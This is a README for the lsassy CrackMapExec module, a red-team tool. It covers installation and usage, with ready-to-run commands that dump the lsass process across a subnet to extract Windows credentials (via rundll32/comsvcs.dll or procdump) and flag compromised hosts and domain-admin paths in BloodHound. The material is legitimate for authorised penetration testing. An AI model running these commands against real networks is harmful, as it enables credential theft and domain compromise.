 # lsassy CrackMapExec Module

![CrackMapExec >= 4.0.1](https://img.shields.io/badge/CrackMapExec-%3E=4.0.1-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionally interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/example.png)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Clone git repo

From SSH: (Need Github account with ssh key)
```bash
git clone git@github.com:Hackndo/lsassy.git
```
From Https: (Without Github account)
```bash
git clone https://github.com/Hackndo/lsassy.git
```

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

### Basic

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

### Advanced

By default, this module uses rundll32.exe with comsvcs.dll DLL to dump lsass process on the remote host, with method "1" of lsassy.

If you want to specify the dumping method, use the `METHOD` option (`lsassy -h` for more details)

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=2 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

If you're using a method that requires procdump, you can specify procdump location with `PROCDUMP_PATH` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o METHOD=3 PROCDUMP_PATH=/opt/Sysinternals/procdump.exe
```

By default, lsass dump name is randomly generated. If you want to specify a dump name, you can use `REMOTE_LSASS_DUMP` option.

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o REMOTE_LSASS_DUMP=LSASSY_DUMP.dmp
```

### BloodHound

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            METHOD              Method to use to dump procdump with lsassy. See lsassy -h for more details
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: Random)
            PROCDUMP_PATH       Path to procdump on attacker host. If this is not set, "rundll32" method is used
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
